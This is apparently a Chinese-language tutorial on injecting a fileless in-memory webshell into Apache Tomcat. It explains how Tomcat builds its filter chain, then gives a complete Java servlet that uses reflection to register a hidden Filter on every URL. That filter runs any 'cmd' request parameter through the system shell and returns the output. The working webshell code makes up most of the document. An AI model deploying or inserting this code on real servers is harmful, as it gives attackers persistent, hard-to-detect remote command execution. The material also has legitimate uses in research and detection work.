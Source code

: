 ### Servlet动态注册机制注入

Servlet、Listener、Filter 由 `javax.servlet.ServletContext` 去加载，无论是使用 xml 配置文件还是使用 Annotation 注解配置，均由 Web 容器进行初始化，读取其中的配置属性，然后向容器中进行注册。

#### Filter类型

一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet

`ServletContext`类还约定了一个事情，那就是如果这个 ServletContext 传递给 ServletContextListener 的 ServletContextListener.contextInitialized 方法，该方法既未在 web.xml 或 web-fragment.xml 中声明，也未使用 javax.servlet.annotation.WebListener 进行注释，则会抛出 UnsupportedOperationException 异常

在tomcat容器中对于`javax.servlet.ServletContext`的实现类是`org.apache.catalina.core.ApplicationContext`

`Tomcat`处理一个请求的对应的ServletChain:

`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`方法中

- 在 context 中获取 filterMaps，并遍历匹配 url 地址和请求是否匹配；
- 如果匹配则在 context 中根据 filterMaps 中的 filterName 查找对应的 filterConfig；
- 如果获取到 filterConfig，则将其加入到 filterChain 中
- 后续将会循环 filterChain 中的全部 filterConfig，通过 `getFilter` 方法获取 Filter 并执行 Filter 的 `doFilter` 方法。

如果想添加一个 Filter ，需要在 StandardContext 中 filterMaps 中添加 FilterMap，在 filterConfigs 中添加 ApplicationFilterConfig。

在应用程序动态添加Filter

- 调用 ApplicationContext 的 addFilter 方法创建 filterDefs 对象，需要反射修改应用程序的运行状态，加完之后再改回来；
- 调用 StandardContext 的 filterStart 方法生成 filterConfigs；
- 调用 ApplicationFilterRegistration 的 addMappingForUrlPatterns 生成 filterMaps；
- 为了兼容某些特殊情况，将我们加入的 filter 放在 filterMaps 的第一位，可以自己修改 HashMap 中的顺序，也可以在自己调用 StandardContext 的 addFilterMapBefore 直接加在 filterMaps 的第一位。

**实现流程**

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```java
package pres.test.momenshell;

import org.apache.catalina.core.StandardContext;
import org.apache.catalina.core.ApplicationContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.Context;


import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;
import java.util.Scanner;

public class AddTomcatFilter extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            String name = "RoboTerh";
            //从request中获取ServletContext
            ServletContext servletContext = req.getSession().getServletContext();

            //从context中获取ApplicationContext对象
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

            //从ApplicationContext中获取StandardContext对象
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

            //从StandardContext中获得filterConfigs这个map对象
            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            //如果这个过滤器名字没有注册过
            if (filterConfigs.get(name) == null) {
                //自定义一个Filter对象
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                        HttpServletRequest req = (HttpServletRequest) servletRequest;
                        if (req.getParameter("cmd") != null) {
                            PrintWriter writer = resp.getWriter();
                            String cmd = req.getParameter("cmd");
                            String[] commands = new String[3];
                            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
                            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                                commands[0] = "cmd";
                                commands[1] = "/c";
                            } else {
                                commands[0] = "/bin/sh";
                                commands[1] = "-c";
                            }
                            commands[2] = cmd;
                            try {
                                writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
                                writer.getClass().getDeclaredMethod("flush").invoke(writer);
                                writer.getClass().getDeclaredMethod("close").invoke(writer);
                                return;
                            } catch (NoSuchMethodException | IllegalAccessException | InvocationTargetException e) {
                                e.printStackTrace();
                            }

                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {

                    }

                };

                //创建FilterDef对象 并添加 filter对象，filtername, filter类
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());
                //通过addFilterDef方法添加 filterDef 方法
                standardContext.addFilterDef(filterDef);

                //创建FilterMap对象，并添加 filter映射，filtername
                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                //这个不要忘记了
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                //通过addFilterMapBefore方法添加filterMap对象
                standardContext.addFilterMapBefore(filterMap);

                //通过前面获取的filtermaps的put方法放入filterConfig
                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name, filterConfig);

                PrintWriter out = resp.getWriter();
                out.print("Inject Success !");
            }

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

